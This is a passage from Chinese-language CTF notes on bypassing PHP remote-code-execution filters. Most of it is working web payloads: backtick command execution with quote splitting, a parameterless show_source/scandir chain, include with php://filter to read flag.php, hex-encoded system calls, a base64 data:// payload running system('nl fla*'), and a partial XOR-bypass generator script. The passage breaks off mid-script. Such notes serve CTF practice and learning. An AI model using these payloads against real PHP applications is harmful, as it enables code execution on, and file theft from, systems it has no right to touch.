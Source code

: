 ### 4.反引号的命令执行

```
echo `nl fl''ag.php`;引号隔断法
show_source(next(array_reverse(scandir(pos(localeconv())))));
```

### 5 无参数rce

### 6. 过滤了分号

```
小知识：include不用括号，分号可以用?>代替。
include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
```

### 7. 进制编码

```
"x73x79x73x74x65x6d"("nl%09fl[a]*");
```

### 8. 文件包含rce

include用data伪协议

![image-20210425160752761](C:\Users\Dem0\AppData\Roaming\Typora\typora-user-images\image-20210425160752761.png)

data://text/plain,`<?php phpinfo();?>//data://text/plain, 这样就相当于执行了php语句`
data://text/plain;base64,PD9waHAgc3lzdGVtKCJubCBmbGEqIik7Pz4=

在字符串或变量中，这一串就相当于指定数据类型。

就是说 如果我直接去匹配里面的值的时候，他不会不被当成base64.

### 9.session

```
session_id(session_start())
```

session_id可以获取当前的PHPSESSID.

### 10. 异或绕过

```
<?php
$myfile = fopen("rce_or.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
    for ($j=0; $j <256 ; $j++) { 

        if($i<16){
            $hex_i='0'.dechex($i);
        }
        else{
            $hex_i=dechex($i);
        }
        if($j<16){
            $hex_j='0'.dechex($j);
        }
        else{
            $hex_j=dechex($j);
        }
        $preg = '/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i';
        if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
                    echo "";
```
